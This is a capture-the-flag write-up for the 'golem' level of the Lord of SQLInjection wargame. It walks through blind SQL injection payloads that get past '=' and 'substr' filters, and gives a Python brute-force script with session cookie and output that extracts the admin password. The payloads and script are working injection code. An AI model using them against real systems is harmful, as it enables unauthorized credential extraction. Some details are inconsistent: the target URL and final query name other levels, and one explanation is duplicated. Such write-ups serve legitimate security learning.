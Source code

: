 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 11
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/70c7ce92-21ac-447b-af42-ded1eaaf1b64)

We are provided with the SQL query:

```sql
SELECT id FROM prob_golem WHERE id='guest' AND pw='{$_GET[pw]}'
```

The code also performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello admin`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.

It is similar to [orge](https://writeups-kunull.vercel.app/Lord%20of%20SQLInjection/orge) but this level also blocks the `=` and `substr` characters. So we will have to use their alternatives `LIKE` and `substring` respectively.

In order to print out the flag, we need to first know the password. We have to perform a Blind SQL Injection.

## Blind SQL Injection

First we have to reveal the length of the flag.

### Retrieving the password length

If we provide the following URI parameter:

```
?pw=' || id LIKE 'admin' %26%26 length(pw) LIKE [lemgth] -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_golem WHERE id='admin' AND pw='' || id LIKE 'admin' && length(pw) LIKE [lemgth] -- -'
```

When the length of `pw` for `id='admin'` is equal to the `[length]` that we provide, the query will result into `True`. 
This will cause the `Hello admin` message to be printed. 
We can brute force the length and use the message as an indicator of correct brute force value.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![Pasted image 20240610125927](https://github.com/Kunull/Write-ups/assets/110326359/063e53c5-9020-42b4-b78a-40133f95d84d)

If we provide the following URI parameter:

```
?pw=' || id LIKE 'admin' %26%26 substring(pw, [index], 1) LIKE '[character]' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_golem WHERE id='admin' AND pw='' || id LIKE 'admin' %26%26 substring(pw, [index], 1) LIKE '[character]' -- -'
```

When the length of `pw` for `id='admin'` is equal to the `[length]` that we provide, the query will result into `True`. 
This will cause the `Hello admin` message to be printed. 
We can brute force the length and use the message as an indicator of correct brute force value.


### Script

We can automate the entire process using a script.

```py title="golem_script.md"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'jeae4igtrh2cq92r63ob4kqmqr'}
url = "https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php"
password_length = 0

for x in range(0, 10):
  payload = f"' || id LIKE 'admin' && length(pw) LIKE {x} -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' || id LIKE 'admin' && substring(pw, {index}, 1) LIKE '{char}' -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "Hello admin" in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\golem_script.py.py

[!] Payload: ?pw=' || id LIKE 'admin' && length(pw) LIKE 8 -- -
[!] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+length%28pw%29+LIKE+8+--+-
[!] Password length: 8

[+] Payload: ?pw=' || id LIKE 'admin' && substring(pw, 1, 1) LIKE '7' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+substring%28pw%2C+1%2C+1%29+LIKE+%277%27+--+-
[+] Character at index 1: 7

[+] Payload: ?pw=' || id LIKE 'admin' && substring(pw, 2, 1) LIKE '7' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+substring%28pw%2C+2%2C+1%29+LIKE+%277%27+--+-
[+] Character at index 2: 7

[+] Payload: ?pw=' || id LIKE 'admin' && substring(pw, 3, 1) LIKE 'd' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+substring%28pw%2C+3%2C+1%29+LIKE+%27d%27+--+-
[+] Character at index 3: d

[+] Payload: ?pw=' || id LIKE 'admin' && substring(pw, 4, 1) LIKE '6' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+substring%28pw%2C+4%2C+1%29+LIKE+%276%27+--+-
[+] Character at index 4: 6

[+] Payload: ?pw=' || id LIKE 'admin' && substring(pw, 5, 1) LIKE '2' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+substring%28pw%2C+5%2C+1%29+LIKE+%272%27+--+-
[+] Character at index 5: 2

[+] Payload: ?pw=' || id LIKE 'admin' && substring(pw, 6, 1) LIKE '9' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+substring%28pw%2C+6%2C+1%29+LIKE+%279%27+--+-
[+] Character at index 6: 9

[+] Payload: ?pw=' || id LIKE 'admin' && substring(pw, 7, 1) LIKE '0' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+substring%28pw%2C+7%2C+1%29+LIKE+%270%27+--+-
[+] Character at index 7: 0

[+] Payload: ?pw=' || id LIKE 'admin' && substring(pw, 8, 1) LIKE 'b' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+substring%28pw%2C+8%2C+1%29+LIKE+%27b%27+--+-
[+] Character at index 8: b

[!] Extracted password: 77d6290b
[!] Final payload: ?pw=77d6290b
```

Now, we can provide password URI parameter:

```
?pw=77d6290b
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='77d6290b'
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/32bafc83-a76d-4d3d-98b0-8f47a4f83333)

